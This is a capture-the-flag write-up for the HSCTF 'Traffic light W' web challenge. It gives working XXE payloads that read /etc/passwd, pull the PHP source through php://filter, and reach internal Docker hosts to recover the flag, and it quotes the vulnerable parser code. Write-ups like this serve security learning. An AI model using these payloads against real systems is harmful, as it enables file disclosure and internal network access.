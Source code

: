 # Traffic light W

Category: Web

Points: 337

> 🚦Can you figure out what's going on with this shady company?
>
> https://traffic-light-w.web.hsctf.com/
>
> Author: meow

The site appears to be some admin panel where you can "Upload firmware" in XML format.  An example XML is provided:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<root>
  <content>Red</content>
</root>
```

Some misconfigured XML parsers ~~(hmm PHP)~~ are vulnerable to [XXE](https://portswigger.net/web-security/xxe)  (XML eXternal Entity) attacks. Essentially,  the XML parser can be forced fetch data from websites, read local files, or in the case of PHP, execute code.

A simple attack to read `/etc/passwd`:

```xml-dtd
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE root [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>
  <content>&xxe;</content>
</root>
```

Unfortunately, modifying the attack to read `/flag.txt` fails.

Fortunately, there are a variety of [protocols](https://www.cdxy.me/?p=752) that PHP supports. One of these is the [Expect](https://www.php.net/manual/en/wrappers.expect.php) protocol, which allows for RCE: `expect://ls`. Unfortunately, it is rarely enabled and seems to be disabled here. Next, the `php://filter/read` protocol can allows us to read files and make HTTP requests. We can then read the source files:

```xml-dtd
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE root [
  <!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=firmware_upload.php">
]>
<root>
  <content>&xxe;</content>
</root>
```

Decoded:

```php
<?php
if (isset($_GET["xml"])) {
  libxml_disable_entity_loader (false);

  $xml = strlen($_GET["xml"]) > 0 ? $_GET["xml"] : "Firmware Update Failed";

  $document = new DOMDocument();
  $document->loadXML($xml, LIBXML_NOENT | LIBXML_DTDLOAD);
  $parsed = simplexml_import_dom($document);

  echo $parsed->content;
}
?>
```

Indeed, the application is vulnerable to XXE. However, still no flag though. 

I was stuck here for quite some time, until an organizer told me that the flag is not on the server. 

Looking back to the main page, we see the following table:

| #     | Active | Docker Hostname    | Port    | Firmware                                                     |
| ----- | ------ | ------------------ | ------- | ------------------------------------------------------------ |
| 1,001 | True   | traffic-light-1001 | 80      | [Upload Firmware](https://traffic-light-w.web.hsctf.com/firmware_upload.php?light=1001) |
| 1,002 | False  | Offline            | Offline | Upload Firmware                                              |
| 1,003 | False  | Offline            | Offline | Upload Firmware                                              |
| 1,004 | True   | traffic-light-1004 | 80      | [Upload Firmware](https://traffic-light-w.web.hsctf.com/firmware_upload.php?light=1004) |
| 1,005 | False  | Offline            | Offline | Upload Firmware                                              |

The `Docker Hostname` column is particularly interesting. It allows containers on the same network to communicate with one another using only the hostname.

```xml-dtd
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE root [
  <!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=http://traffic-light-1001:80">
]>
<root>
  <content>&xxe;</content>
</root>
```

Unfortunately, this request turned up nothing. The flag is actually in the `1,004` traffic light.

```xml-dtd
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE root [
  <!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=http://traffic-light-1004:80">
]>
<root>
  <content>&xxe;</content>
</root>
```

Decoding the base64: 

```
If you're reading this... You found out that the traffic lights are fake.
Don't tell anyone. Here's a flag to make you happy: flag{shh_im_mining_bitcoin}
```

